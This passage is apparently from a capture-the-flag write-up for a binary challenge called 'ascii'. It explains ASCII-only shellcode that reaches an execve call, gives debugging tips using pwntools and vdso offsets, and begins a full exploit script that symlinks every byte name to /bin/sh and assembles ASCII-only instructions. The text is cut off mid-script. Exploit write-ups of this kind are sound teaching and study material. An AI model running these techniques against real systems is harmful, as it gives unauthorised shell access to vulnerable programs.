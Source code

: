 This will setup and run our `execve` call once we walk upon the `int 0x80; nop; nop` shellcode we created sometime in the future, using `inc edi` style nops to walk to that point, now giving us our full shellcode.


## Tips for debugging

Something important to note is that we seem to only be able to use `gdb` on files that we own with pwntools, so if we do something like
```
cp /home/ascii/ascii /tmp/mydir/ascii_mine
```
We can get something that we can easily debug with pwntools.
Additionally, we can read the `procmap` for `ascii_mine`, allowing us to find the `vdso` offsets at runtime and generate a payload that (should) hit perfectly, mainly debugging comparatively painless.

Additionally, since it takes some time to ingest the payload, batching processes is a very time efficient way to see if your solution works on the true binary; if we don't get the solution in say, 1000 attempts, something is probably wrong (as we'd expect to get it within 256 attempts with reasonable variance).

## The full solution

This is certainly not the cleanest solution, but hopefully with the previous explanation it makes sense at least somewhat:

```python
import time
import os
from sys import exit
from pwn import *

context.arch, context.os = 'i386', 'linux'

VDSO_START = 0x55606000
DEBUG = True
GDB = True

def setup_symlinks(filename):
    for i in range(1, 256):
        i = chr(i)
        if i == '.' or i == '/':
            continue
        try:
            os.remove(i)
        except OSError:
            print(i, 'failed to remove')
            pass
        os.symlink(filename, i)
        print('made symlink for', i)

setup_symlinks("/bin/sh")

def is_ascii(c):
    c = ord(c)
    return c >= 0x20 and c <= 0x7f

zero_out_eax = asm('''
push 0x20
pop eax
xor al, 0x20
''')

setup_int_0x80 = zero_out_eax + asm('''
```
